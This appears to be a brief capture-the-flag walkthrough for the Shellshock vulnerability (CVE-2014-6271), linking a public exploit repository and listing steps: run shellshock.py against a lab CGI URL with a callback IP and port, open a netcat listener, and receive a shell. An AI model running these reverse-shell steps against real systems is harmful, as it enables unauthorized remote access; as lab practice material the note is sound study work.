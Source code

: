 ## CVE-2014-6271

### Shellshock exploit?

#### Link

```
https://github.com/b4keSn4ke/CVE-2014-6271
```
1. payload

```
python3 shellshock.py 10.9.3.63 4444 http://0day.thm/cgi-bin/test.cgi
```

2. Listening
```
nc -lvnp 4444
```

3. connected

![alt text](image.png)
